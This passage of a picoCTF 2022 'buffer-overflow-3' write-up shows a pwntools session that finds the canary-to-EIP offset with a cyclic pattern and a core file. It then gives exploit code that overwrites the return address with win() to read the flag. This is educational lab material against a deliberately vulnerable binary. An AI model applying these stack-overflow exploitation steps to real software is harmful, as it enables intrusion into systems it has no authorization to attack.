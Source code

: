 {% endcodeblock %}

The final thing we need to figure out is the offset between the canary to `$eip`, the pointer register, which we will repopulate with the address of `win()`. We can do this by appending a cyclic pattern to the end of our current payload (64 + 4 canary bytes) and reading the Corefile's crash location, which will be the `$eip`:

(Note: My canary is "abcd" because I put that in my `canary.txt`. It will be different on the remote!)

{% ccb html:true wrapped:true terminal:true %}
<span class="meta prompt_">$ </span>python3 -q
<span class="meta prompt_">>>></span> from pwn import *
<span class="meta prompt_">>>></span> p = process('./vuln')
[<span style="color:#9755B3">x</span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos;
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos;: pid 1493
<span class="meta prompt_">>>></span> payload = cyclic(64) + b&apos;abcd&apos; + cyclic(128)
<span class="meta prompt_">>>></span> p.sendline(b&apos;196&apos;)
<span class="meta prompt_">>>></span> p.sendline(payload)
<span class="meta prompt_">>>></span> p.wait()
[<span style="color:#277FFF"><b>*</b></span>] Process &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos; stopped with exit code -11 (SIGSEGV) (pid 1493)
<span class="meta prompt_">>>></span> core = Corefile(&apos;./core&apos;)
[<span style="color:#9755B3">x</span>] Parsing corefile...
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-3/core&apos;
    Arch:      i386-32-little
    EIP:       0x61616165
    ESP:       0xffa06160
    Exe:       &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos; (0x8048000)
    Fault:     0x61616165
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
<span class="meta prompt_">>>></span> cyclic_find(0x61616165)
16
{% endccb %}

The offset is 16, so we'll have to append that amount of bytes to the payload followed by the address of `win()`. I'll combine all sections of our payload together with `flat()`, and then hopefully read the flag from the output:

{% codeblock lang:py first_line:32 %}
canary = get_canary()
p = new_process()
payload = flat([{offset: canary}, {16: elf.symbols.win}])
p.sendlineafter(b"> ", str(len(payload)).encode())
p.sendlineafter(b"> ", payload)
log.success(p.recvall().decode("ISO-8859-1")) # recvallS() didn't work :(
{% endcodeblock %}

Since I segmented my script into parts, I decided against putting a giant codeblock here with the same code as earlier. Instead, I just put it on a [Gist](https://gist.github.com/jktrn/bafbc08bbee179588207e3e3caffde75)! Anyways, here's the full script in action:
